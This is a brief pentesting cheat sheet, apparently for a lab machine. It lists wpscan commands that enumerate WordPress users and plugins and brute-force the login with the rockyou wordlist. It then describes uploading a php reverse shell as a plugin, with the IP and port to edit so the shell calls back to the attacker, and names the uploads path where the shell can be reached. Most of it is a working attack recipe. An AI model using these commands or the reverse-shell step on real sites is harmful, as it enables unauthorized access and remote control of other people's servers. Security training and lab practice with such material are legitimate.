 Wordpress commands
==================

**Enumerating users**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u

** Bruteforce wp login page**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

**Enumerating wordpress users and plugins**

wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


Reverse shell exploits
======================

**Exploit Method 1**

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.
Download and Edit the following file content

$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location

https://192.168.1.30:12380/blogblog/wp-content/uploads/


